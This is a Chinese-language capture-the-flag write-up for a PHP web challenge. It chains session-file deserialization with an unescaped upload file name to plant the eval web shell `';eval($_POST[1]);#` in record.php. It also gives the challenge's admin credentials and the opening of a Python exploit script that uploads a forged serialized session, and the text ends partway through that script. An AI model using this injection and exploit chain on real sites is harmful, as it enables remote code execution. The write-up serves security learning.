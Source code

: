 ![image-20240425163718557](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-7441b318770a2443cf02e36f449d1b8dceb3d114.png)

主要是向record.php进行append追加，内容为成员变量`data`，

![image-20240425164231704](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-bb515fdb36da9ac09516396ebe1e6fd4cbf099ed.png)

发现Log实例化construct时会对data进行初始化，上面动态new了一个Log，传入的值就是经过处理的Config类，由于Config中avatar、nickname、sex、mail、telnum我们都可以控制，所以我就想当然得随便挑了个值进行插入了，当然发现不行；

![image-20240425164452892](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-c81a8dd9bc1ec47b95ed75de95f3255069887d91.png)

这里我尝试了nickname进行恶意payload的插入，发现被转移了，看index.php的源代码才发现，只要POST的值都会被转义，因此经过思考，发现avatar文件上传的名字没有进行转移过滤，可以注入：

![image-20240425164817130](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-a23610f028e52edf57e7ed01685a900ff56cc53e.png)

![image-20240425164749293](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-0e27ac63028ae04a14c3c551f973b20be93917c6.png)

最终只要将上传的文件名改成这样的形式：`';eval($_POST[1]);#`，就可以往record.php注入payload。

![image-20240425164925131](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-ddd2b8cb65edb3ae1e2f703be63a2c473afd3e91.png)

至于，如何走到这个动态函数的调用就很简单了，只要调用了editconf就行，这个我们在前面就讨论过了，`uname=admin，passwd=1q2w3e`就能进入这个if。

![image-20240425165051370](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-843bf6861a07ea95d80559120dddd4fd662aa3e6.png)

### 一键获取flag的exp

简单说一下脚本的流程：

1. 首先是上传 `session_123` 文件，里面的内容是包括了`Config` 类，`Config`对象里面包含了一个 `Log` 类，可以在序列化的时候触发`__sleep`，然后showconf 函数可以触发到Log 的`toString`，最终写入`<?php代码`；
2. 然后是请求时携带PHPSESSID的Cookie值，就能在访问index.php开始时反序列化`/tmp/sess_123`文件，最后访问完毕就序列化写回去`/tmp/sess_123`，触发`Config::__sleep；`
3. 我们知道record.php这时不为空了，可以调用editconf的动态函数写入新内容，但是需要先闭合单引号和语句，同时还要注释掉后面的报错内容，同时POST的值会被addslashes函数转义，因此这里只能通过文件名写入恶意代码；最终通过record.php进行任意命令的执行。

```php
import base64  
​  
import requests  
​  
url = "http://0d135888-78e8-49ed-89bb-80d58c7ea23f.node5.buuoj.cn:81"  
​  
headers={  
    "Cookie":"PHPSESSID=123"  
}  
​  
def upload\_session\_file():  
    files={  
        "avatar":("sess\_123",base64.b64decode("YXxPOjY6IkNvbmZpZyI6Nzp7czo1OiJ1bmFtZSI7czo1OiJhZG1pbiI7czo2OiJwYXNzd2QiO3M6MzI6IjUwYjk3NDgyODk5MTA0MzZiZmRkMzRiZGE3YjFjOWQ5IjtzOjY6ImF2YXRhciI7TjtzOjg6Im5pY2tuYW1lIjtPOjM6IkxvZyI6MTp7czo0OiJkYXRhIjtzOjExOiJsb2dfc3RhcnQoKSI7fXM6Mzoic2V4IjtOO3M6NDoibWFpbCI7TjtzOjY6InRlbG51bSI7Tjt9").decode())  
    }  
    params = {  
        "uname": "admin",  
        "passwd": "1q2w3e",  
    }  
    data = {  
        "m":"edit",  
        "nickname":"'w1nd",  
        "mail":"kap0k",  
        "telnum":"123"  
    }  
    res = requests.post(url=url,params=params,data=data,files=files)  
```